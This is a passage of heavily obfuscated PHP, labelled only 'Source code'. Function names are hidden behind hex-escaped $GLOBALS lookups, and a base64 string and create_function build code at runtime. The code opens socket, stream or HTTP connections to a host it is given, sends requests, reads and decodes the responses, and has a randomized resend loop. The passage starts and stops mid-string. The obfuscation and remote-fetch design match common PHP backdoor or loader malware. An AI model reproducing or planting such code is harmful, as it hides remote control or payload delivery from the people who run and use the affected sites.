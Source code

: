 HTTP/$O_O_0OO00_\\r\\n".${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x30\x4f\x5f\x30\x5f\x4f\x5f"]("\\r\\n",$O_O_O_O000)."\\r\\n\\r\\n";}unset($O_O_O_O000,$O00O_0OO__,$O_O_0OO00_,$O0__OO00_O);$O0OOO__00_=null;if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($OOO_O_00_0,-1)==\'n\'){$O0OOO__00_=$OOO_O_00_0($O__OO0_0O0,$O_O0_0_O0O,$O__O0_O0O0no,$O__O0_O0O0str,30);}else{if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($OOO_O_00_0,-1)==\'t\'){$O_O00O__O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'K0kushTNLtPXBwA=\');$O_O00O__O0.=$O__OO0_0O0;$O_O00O__O0.=\':\';$O_O00O__O0.=$O_O0_0_O0O;$O0OOO__00_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x4f\x30\x4f\x5f\x30\x30\x5f\x5f"]($O_O00O__O0,$O__O0_O0O0no,$O__O0_O0O0str,30);unset($O_O00O__O0);}}$OOO_O__000=\'\';if($O0OOO__00_){${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x5f\x4f\x5f\x4f\x30\x30"]($O0OOO__00_,true);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x5f\x5f\x4f\x30\x5f\x30\x4f"]($O0OOO__00_,30);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x4f\x30\x4f\x5f\x4f\x30\x30"]($O0OOO__00_,$OO00O___O0);if(!$O_00O_O_0O){$O__O0_OO00=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x4f\x30\x5f\x30\x5f\x4f\x5f"]($O0OOO__00_);if(!$O__O0_OO00["\x74\x69\x6d\x65\x64\x5f\x6f\x75\x74"]){while(!${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x4f\x30\x5f\x5f\x4f\x4f\x30"]($O0OOO__00_)){$OO00_0OO__=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x5f\x4f\x4f\x30\x30\x5f\x30\x5f"]($O0OOO__00_);if($OO00_0OO__&&($OO00_0OO__=="\\r\\n"||$OO00_0OO__=="\\n")){break;}unset($OO00_0OO__);}while(!${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x4f\x30\x5f\x5f\x4f\x4f\x30"]($O0OOO__00_)){$O00O_O0__O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x4f\x4f\x30\x30\x30\x5f\x4f"]($O0OOO__00_,8192);$OOO_O__000.=$O00O_O0__O;unset($O00O_O0__O);}}unset($O__O0_OO00);}${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x4f\x30\x5f\x5f\x4f\x30"]($O0OOO__00_);}else{if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($OOO_O_00_0,-1)==\'e\'){$O_OO0_0_0O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x5f\x4f\x4f\x5f\x4f\x30"]($O__OO0_0O0);$O0OOO__00_=$OOO_O_00_0(AF_INET,SOCK_STREAM,0);if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x30\x4f\x4f\x4f\x5f\x5f"]($O0OOO__00_,$O_OO0_0_0O,$O_O0_0_O0O)){if(!$O_00O_O_0O){${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x4f\x5f\x30\x4f\x30\x4f\x30"]($O0OOO__00_,$OO00O___O0,${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30"]($OO00O___O0));while($O_0OO__0O0=@${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f\x5f"]($O0OOO__00_,8192)){$OOO_O__000.=$O_0OO__0O0;unset($O_0OO__0O0);}$OOO_O__000=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"]("\\r\\n\\r\\n",$OOO_O__000);${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x4f\x4f\x30\x5f\x4f\x30"]($OOO_O__000);$OOO_O__000=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x30\x5f\x4f\x5f\x4f\x4f\x30\x30"]("\\r\\n\\r\\n",$OOO_O__000);}else{$O0OO0_O__0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x30\x5f\x4f\x4f\x30"](2,5);$OO_O0_0_O0=0;while($OO_O0_0_O0<$O0OO0_O__0){${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x4f\x5f\x30\x4f\x30\x4f\x30"]($O0OOO__00_,$OO00O___O0,${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30"]($OO00O___O0));$OO_O0_0_O0++;${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x30\x5f\x4f\x5f\x30\x4f\x5f"](${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x30\x5f\x4f\x4f\x30"](50000,100000));}unset($OO_O0_0_O0,$O0OO0_O__0);}}${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x30\x4f\x5f\x4f\x30\x4f\x5f\x30"]($O0OOO__00_);unset($O_OO0_0_0O);}}unset($OO00O___O0,$OOO_O_00_0,$O0OOO__00_,$O_O0_0_O0O,$O__OO0_0O0);if(!$O_00O_O_0O){$OOO_O__000=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x4f\x30\x30\x4f\x5f\x5f"](\'/(?:(?:\\r\\n|\\n)|^)([0-9A-F]+)(?:\\r\\n|\\n){1,2}(.*?)\'.\'((?:\\r\\n|\\n)(?:[0-9A-F]+(?:\\r\\n|\\n))|$)/si\',${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"](\'$O000__O_OOes\',\'return ${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x4f\x5f\x4f\x5f\x30\x4f\x5f"]($O000__O_OOes[1])==${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30"]($O000__O_OOes[2])?$O000__O_OOes[2]:$O000__O_OOes[0];\'),$OOO_O__000);return ${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x30\x4f\x4f\x5f"](${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x30\x4f\x4f\x5f"]($OOO_O__000,"\\xEF\\xBB\\xBF"));}else{return 1;}');$OO0_OO__00=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$O000O_O_O_','$O00_O_0O_O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x4f\x30\x5f\x4f\x30"](${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x5f\x30\x30\x5f\x30\x4f\x5f\x4f"]($O000O_O_O_));$OO_0__00OO=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($O00_O_0O_O,0,5);$O__0O0O_O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($O00_O_0O_O,-5);$OO__00_0OO=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($O00_O_0O_O,5,${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30"]($O00_O_0O_O)-10);return